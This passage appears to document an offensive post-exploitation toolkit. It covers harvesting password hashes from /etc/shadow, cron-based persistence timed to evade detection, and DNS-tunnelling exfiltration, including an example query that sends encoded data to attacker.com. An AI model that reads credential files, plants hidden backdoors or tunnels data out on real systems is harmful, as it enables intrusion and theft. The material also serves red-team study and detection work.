 **Supported Hash Types**:
- $1$ = MD5
- $2a$ = Blowfish
- $5$ = SHA-256
- $6$ = SHA-512
- $y$ = yescrypt

**Technique Flow**:
1. Check /etc/shadow permissions
2. Extract /etc/passwd for usernames
3. Extract /etc/shadow for hashes
4. Combine into crackable format
5. Attempt basic hash cracking

---

#### **Persistence** (`post_exploitation/persistence.py`)
**Technique**: Cron Backdoor (PERSIST-CRON-BACKDOOR-001)  
**MITRE ATT&CK**: T1053.003  
**Stealth**: 7/10

**Cron Locations**:
- /etc/crontab
- /etc/cron.d/
- /var/spool/cron/crontabs/
- User crontabs

**Timing Patterns**:
- System boot (@reboot)
- Irregular intervals (avoids detection)
- Off-hours execution
- Random minute/hour selection

---

#### **Data Exfiltration** (`post_exploitation/data_exfiltration.py`)
**Technique**: DNS Tunneling (EXFIL-DNS-TUNNEL-001)  
**MITRE ATT&CK**: T1048.003  
**Stealth**: 9/10

**Encoding Support**:
- Base64
- Hex
- Base32

**Technique Flow**:
1. Chunk data into DNS label sizes (<63 chars)
2. Encode chunks
3. Send as DNS queries to attacker-controlled domain
4. Reassemble on C2 server

**Example**:
```
Data: "secret_data"
Query: "c2VjcmV0X2RhdGE=.attacker.com"
```

---